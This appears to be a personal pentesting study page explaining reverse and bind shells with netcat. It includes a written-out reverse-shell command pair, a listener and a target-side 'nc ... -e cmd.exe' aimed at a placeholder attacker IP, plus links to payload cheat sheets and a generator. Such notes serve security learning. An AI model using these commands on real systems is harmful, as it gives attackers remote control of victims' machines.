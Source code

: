 # Shells

Hacking Tutorial: [Bind & Reverse Shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

## Contents
- [Reverse Shells](#reverse-shells)
  - [Explanation](#explanation)
  - [Example](#example)
  - [Resources](#resources)
- [Bind Shells](#bind-shells)
  - [Explanation](#explanation-1)
  - [The Problem](#the-problem)
  - [The Solution](#the-solution)

## Reverse Shells
![Netcat-reverse-shell](https://github.com/GregKedrovsky/Hacking/assets/26492233/0c7173d5-91a6-4c45-b49a-8b8251dd327d)

### Explanation
- A reverse shell is a type of remote shell where the target connects back to a listener on the attacker's machine, consequently allowing for execution of commands on the target system. 
- You will use reverse shells 95% of the time
- With a reverse shell you do not necessarily need Netcat on the target. You just need a connection from the target back to the Netcat listener on the attack machine.
- Reverse shells also are harder to detect since the traffic is outbound from the target (and not inbound; most firewalls block inbound traffic).

### Example
```
nc -nvlp 1234                            # listener, on attack machine
nc -nv [attack ip] [port#] -e cmd.exe    # from target machine, Windows
```

### Resources
- [PentestMonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- PentestMonkey Reverse Shell Example: PHP Reverse Shell ( [instructions](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) | [download](https://github.com/pentestmonkey/php-reverse-shell) )
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) by Payloads All The Things, by swisskyrepo
  - Contains code that can be used to connect back to your listener on your attack maching.
  - The code provided can be executed stand-alone, or it can be included within exploit code, or it can be provided to a user through social engineering. 
- [Reverse Shell Generator](https://www.revshells.com/)
  - Intuitive web interface to generate code for target machines to connect back and give you remote access via a remote shell.

## Bind Shells
![Netcat-bind-shell](https://github.com/GregKedrovsky/Hacking/assets/26492233/e632e39e-24ee-46fd-a510-2bbb0f6e3077)

### Explanation
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system.
  - This allows the execution of commands on the target system.
- A Netcat listener can be set up on the target to execute a specific executable like `cmd.exe` (or `powershell.exe`) or `/bin/bash` when the client (attacker) connects to the listener.

### The Problem
- The first problem with bind shells is getting Netcat on the target system and then using it to spin up a listener (on the target system).
- Secondly, most modern operating systems typically block inbound traffic using a firewall.

### The Solution
- Use a reverese shell because with a reverse shell, the rules are switched.
  - The attack machine sets up the listener.
  - You connect from the target machine, outbound, to the attack machine.
  - Outbound traffic is often less scrutinized than inbound traffic.
- And the result is the same: shell access to the target.
